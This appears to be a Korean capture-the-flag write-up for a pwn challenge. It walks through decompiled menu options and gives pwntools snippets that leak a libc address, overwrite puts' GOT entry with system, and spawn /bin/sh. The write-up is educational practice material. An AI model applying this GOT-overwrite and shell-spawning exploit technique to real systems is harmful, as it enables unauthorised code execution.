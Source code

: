 ## 함수 분석 / 취약점 발견
### ida analysis
할 수 있는 행동은 크게 세가지이다.
1. 1을 입력한 경우, 특정 주소의 값을 알아낼 수 있다.
```
  printf("How far have your ball gone?");
  __isoc99_scanf("%x", &v2);
  puts("Wow! It's Nice score!!!");
  printf("There are something on 0x%x, it's %s\n\n", v2, v2);
```
* 이걸로 libc의 주소를 leak할 수 있다(승윤아 고마워)
* puts의 got에 puts의 실제 주소가 존재하므로, puts의 got의 주소를 입력하면 puts의 주소를 알 수 있고, 이는 libc의 주소를 알 수 있음을 의미한다.

2. 2를 입력한 경우, 특정 주소에 특정 값을 입력하고 0x804a030에 특정 값을 입력하고 puts(*a)를 실행시킨다.
```c
  printf("How far have your ball gone?");
  __isoc99_scanf("%x", &v2); // puts_got
  printf("And.... What was there?");
  __isoc99_scanf("%x", v2); // system addr
  printf("Oh, Good! And, What's your name?");
  read(0, &unk_804A030, 9u);
  printf("Thanks %s", &unk_804A030);
  printf("The number of your challenges:");
  puts(*a1); // system("/bin/sh")
```
* puts(*a1)에서 system("/bin/sh"의 주소)의 형태롤 보았다.
* 단 한번 특정 주소의 값을 변경시킬 수 있는데, a1에 /bin/sh의 주소를, puts의 got에 system의 주소를 입력하면 `system("/bin/sh")`이 실행된다!

3. 1, 2가 아닌 값을 입력한 경우, a의 값을 129347만큼 증가시킨다.
```c
    else
    {
      v1[0] += 129347;
    }
```
* 현재 남은 재원은 0x804a30에 문자열을 입력하는것과 a의 값을 129347만큼 증가시키는건데,
* 마침 0x804a30 = 129347 * 0x410 이다. name에 /bin/sh을 입력하고 a의 값을 0x804a30만큼 증가시키면 된다.

## 구현
1. leak the puts address in libc, and get system address
```python
p.recvuntil('it\'s ')
puts_addr = p.recv(4)
stringlength=len(puts_addr) # calculate length of the list
slicedString=puts_addr[stringlength::-1] # slicing 
puts_addr_hex = int((slicedString).hex(), 16)
log.info('puts_addr_hex = 0x%x' % puts_addr_hex) # print the reversed string
system_addr_hex = puts_addr_hex - 0x2c4a0
log.info('systems_addr_hex = 0x%x' % system_addr_hex) # print the reversed string
p.recvuntil('2\n')
```
2. increase a to 0x804A030 = 0x410 * 129347, which is same to /bin/sh's address
```python
for i in range(0, 0x410):
    p.sendline(b'3')
    p.recvuntil('2\n')
```
3. overwrite system addr_hex on puts_got_addr
```
p.sendline(b'2')
p.recvline()
# p.interactive()
p.sendline(puts_got_str)
p.sendline(str(hex(system_addr_hex))[2:])

p.sendline('/bin/sh\x00')
```

## result
![img](./img/solvedGolfFuck.png)